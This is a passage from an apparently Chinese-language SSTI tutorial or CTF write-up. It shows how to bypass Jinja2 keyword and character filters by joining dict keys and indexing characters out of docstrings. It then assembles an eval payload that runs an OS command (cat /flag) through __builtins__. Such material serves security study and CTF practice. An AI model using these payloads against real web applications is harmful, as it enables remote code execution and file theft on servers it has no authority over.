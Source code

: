 #### <a class="reference-link" name="%E5%88%A9%E7%94%A8dict%E6%8B%BC%E6%8E%A5"></a>利用dict拼接

```
`{`% set a=dict(o=x,s=xx)|join %`}`
```

#### <a class="reference-link" name="%E5%88%A9%E7%94%A8string"></a>利用string

比如`'`可以用下面方式拿到，存放在`quote`中

```
`{`% set quote = ((app.__doc__|list()).pop(337)|string())%`}`
```

类似的还有

```
`{`% set sp = ((app.__doc__|list()).pop(102)|string)%`}`
`{`% set pt = ((app.__doc__|list()).pop(320)|string)%`}`
`{`% set lb = ((app.__doc__|list()).pop(264)|string)%`}`
`{`% set rb = ((app.__doc__|list()).pop(286)|string)%`}`
`{`% set slas = (eki.__init__.__globals__.__repr__()|list()).pop(349)%`}`
`{`% set xhx = ((`{` `}`|select()|string()|list()).pop(24)|string())%`}`
```

通过`~`可以将得到的字符连接起来

一个eval的payload如下所示

```
`{`% set xhx = ((`{` `}`|select()|string|list()).pop(24)|string)%`}`
`{`% set sp = ((app.__doc__|list()).pop(102)|string)%`}`
`{`% set pt = ((app.__doc__|list()).pop(320)|string)%`}`
`{`% set quote = ((app.__doc__|list()).pop(337)|string)%`}`
`{`% set lb = ((app.__doc__|list()).pop(264)|string)%`}`
`{`% set rb = ((app.__doc__|list()).pop(286)|string)%`}`
`{`% set slas = (eki.__init__.__globals__.__repr__()|list()).pop(349)%`}`
`{`% set bu = dict(buil=x,tins=xx)|join %`}`
`{`% set im = dict(imp=x,ort=xx)|join %`}`
`{`% set sy = dict(po=x,pen=xx)|join %`}`
`{`% set oms = dict(o=x,s=xx)|join %`}`
`{`% set fl4g = dict(f=x,lag=xx)|join %`}`
`{`% set ca = dict(ca=x,t=xx)|join %`}`
`{`% set ev = dict(ev=x,al=xx)|join %`}`
`{`% set red = dict(re=x,ad=xx)|join%`}`
`{`% set bul = xhx*2~bu~xhx*2 %`}`

`{`% set payload = xhx*2~im~xhx*2~lb~quote~oms~quote~rb~pt~sy~lb~quote~ca~sp~slas~fl4g~quote~rb~pt~red~lb~rb %`}`
```

可以在`eval`或`exec`语句中使用，如下

```
`{`% for f,v in eki.__init__.__globals__.items() %`}` 
    `{`% if f == bul %`}` 
        `{`% for a,b in v.items() %`}`
            `{`% set x=a%`}`
            `{`% if a == ev %`}`
                `{``{`b(payload)`}``}`
            `{`% endif %`}`
        `{`% endfor %`}`
    `{`% endif %`}`
`{`% endfor %`}`
```

